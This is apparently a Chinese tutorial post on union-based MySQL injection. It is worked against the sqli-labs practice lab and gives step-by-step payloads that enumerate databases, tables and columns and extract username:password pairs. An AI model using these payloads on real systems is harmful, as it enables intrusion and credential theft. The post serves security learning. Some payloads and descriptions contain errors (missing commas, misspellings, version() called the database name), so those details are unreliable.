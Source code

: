 ```yaml
---
title: Mysql injection
date: 2019-07-01 16:35:53
tags: 
category: websec
---
```

基于 MYSQL的 注入漏洞
<!-- more -->
# 有回显的注入
对于有回显的注入漏洞，我们可以通过联合查询，获取数据库数据,以 sqli-labs 第一关的实验为例子
![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557843049567-dd99a231-caaf-47e3-828a-4f6c94170898.png#align=left&display=inline&height=303&name=image.png&originHeight=606&originWidth=2288&size=474017&status=done&width=1144)
**0x01 通过错误显示，我们可以进行单引号的测试（%23为#是 mysql 里面注释符号）**
```
// 真假条件测试
http://192.168.50.46:8081/Less-1/?id=1%27%20and%201=1%20%23
http://192.168.50.46:8081/Less-1/?id=1%27%20and%201=2%20%23
```
**0x02 接下来就要猜测数据库表有几行**
```
http://192.168.50.46:8081/Less-1/?id=1%20%27%20%20order%20by%204%20%23
// 解析出来就是
http://192.168.50.46:8081/Less-1/?id=1 ' order by 4 #
```
可以看到页面错误![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557843772120-ed92ba94-4001-4e61-972a-ef4e28f6d4f1.png#align=left&display=inline&height=275&name=image.png&originHeight=550&originWidth=2174&size=378950&status=done&width=1087)
最后得出其行数为 3 行。 
**0x03 记下来需要查看显示的字段，存在数据库的第几行。**
这里还涉及到 mysql的几个小知识点：

1. `select 1,2,3,4`  语句是 mysql 里面的打印语句，当你数据库没有数据，你有几行就可以按顺序打印
1. 根据需求，需要将这道题的 `id` 设置为不存在，否则将只打印数据库存在的字段，而不是1，2，3
```
// 设置 id 为0 select 1,2,3 %23
http://192.168.50.46:8081/Less-1/?id=0%20%27%20%20union%20select%201,2,3%23
```
得到
![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557844250750-fffa777f-d20f-43ae-a06b-87190e3a01b8.png#align=left&display=inline&height=339&name=image.png&originHeight=678&originWidth=2282&size=410162&status=done&width=1141)
**0x04 通过关键函数获取信息**
`user()` 当前连接数据库的用户
`database()` 当前数据库的名称
`version()` 当前数据库名
连接函数：
`concat()` 
`concat_ws()` 
`group_concat()` 
使用下面的 POC
```
union select 1,2 concat_ws(char(58),user(),database(),version()) # 
union select 1,2, group_concat(user(),":",database(),":",version()) #
```
得到
![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557844703408-c06d0725-849d-4c62-a225-e61f4ddbecf0.png#align=left&display=inline&height=338&name=image.png&originHeight=676&originWidth=2288&size=531945&status=done&width=1144)
**0x05 获取表信息**
`information_schema.schemata`  存储了所有数据库名
`information_schame.tables`  存储了所有的数据库表，通过其字段名称 `table_name` ，可以查到所有的表
`information_schema.columns` 存储了所有字段，通过 `column_name` 可以查到所有的字段名

1. 获取数据库名
```
union select 1,2,(select group_concat(schema_name) from information_schema.schemata) #
```

2. 获取表名
```
union select 1,2 (select group_concat(table_name) from information_schema.tables where table_schema="security") #
```

3. 获取列信息
```
union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name="users") #
```

4. 获取数据
```
union select 1,2 (select group_concat(username,":",password) from users) # 
```

# SQL 真假盲注


# 总结
拖库4步骤：
## 1. 获取当前数据库名
```sql
select datbase();
```
## 2. 获取表名
```sql
select group_concat(table_name) from information_schema.tables where table_schema=<database_name>
```
## 3. 获取列名
```sql
select group_concat(column_name) from information_schema.columns where table_name="<table_name>"
```
## 4. 获取数据
```sql
select group_concat(username,":",password) from users
```

